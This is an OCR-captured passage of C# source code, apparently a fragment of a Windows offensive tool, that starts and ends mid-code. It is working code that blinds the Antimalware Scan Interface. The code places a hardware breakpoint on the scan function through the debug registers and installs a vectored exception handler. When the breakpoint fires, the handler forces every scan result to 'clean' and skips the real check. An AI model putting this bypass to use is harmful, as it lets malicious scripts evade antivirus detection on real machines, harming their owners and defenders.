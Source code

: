 ```powershell
			IntPtr hExHandler = WinAPI.AddVectoredExceptionHandler(1, method.MethodHandle.GetFunctionPointer());
			
			Marshal.StructureToPtr(ctx, pCtx, true);
			bool b = WinAPI.GetThreadContext((IntPtr)(-2), pCtx);
			ctx = (WinAPI.CONTEXT64)Marshal.PtrToStructure(pCtx, typeof(WinAPI.CONTEXT64));
			
			EnableBreakpoint(ctx, pABuF, 0);
			WinAPI.SetThreadContext((IntPtr)(-2), pCtx);
		}
		
		public static long Handler(IntPtr exceptions)
		{
			WinAPI.EXCEPTION_POINTERS ep = new WinAPI.EXCEPTION_POINTERS();
			ep = (WinAPI.EXCEPTION_POINTERS)Marshal.PtrToStructure(exceptions, typeof(WinAPI.EXCEPTION_POINTERS));
			
			WinAPI.EXCEPTION_RECORD ExceptionRecord = new WinAPI.EXCEPTION_RECORD();
			ExceptionRecord = (WinAPI.EXCEPTION_RECORD)Marshal.PtrToStructure(ep.pExceptionRecord, typeof(WinAPI.EXCEPTION_RECORD));
			
			WinAPI.CONTEXT64 ContextRecord = new WinAPI.CONTEXT64();
			ContextRecord = (WinAPI.CONTEXT64)Marshal.PtrToStructure(ep.pContextRecord, typeof(WinAPI.CONTEXT64));
			
			if (ExceptionRecord.ExceptionCode == WinAPI.EXCEPTION_SINGLE_STEP && ExceptionRecord.ExceptionAddress == pABuF) {
				ulong ReturnAddress = (ulong)Marshal.ReadInt64((IntPtr)ContextRecord.Rsp);
				
				IntPtr ScanResult = Marshal.ReadIntPtr((IntPtr)(ContextRecord.Rsp + (6 * 8))); // 5th arg, swap it to clean
				
				Marshal.WriteInt32(ScanResult, 0, WinAPI.AMSI_RESULT_CLEAN);
				
				ContextRecord.Rip = ReturnAddress;
				ContextRecord.Rsp += 8;
				ContextRecord.Rax = 0; // S_OK
				
				Marshal.StructureToPtr(ContextRecord, ep.pContextRecord, true); //Paste our altered ctx back in TO THE RIGHT STRUCT
				return WinAPI.EXCEPTION_CONTINUE_EXECUTION;
			} else {
				return WinAPI.EXCEPTION_CONTINUE_SEARCH;
			}
		}
		
		public static void EnableBreakpoint(WinAPI.CONTEXT64 ctx, IntPtr address, int index) {
		switch (index) {
			case 0:
				ctx.Dr0 = (ulong)address.ToInt64();
				break;
			case 1:
				ctx.Dr1 = (ulong)address.ToInt64();
				break;
			case 2:
				ctx.Dr2 = (ulong)address.ToInt64();
				break;
			case 3:
				ctx.Dr3 = (ulong)address.ToInt64();
				break;
		}
		
		ctx.Dr7 = SetBits(ctx.Dr7, 16, 16, 0);
```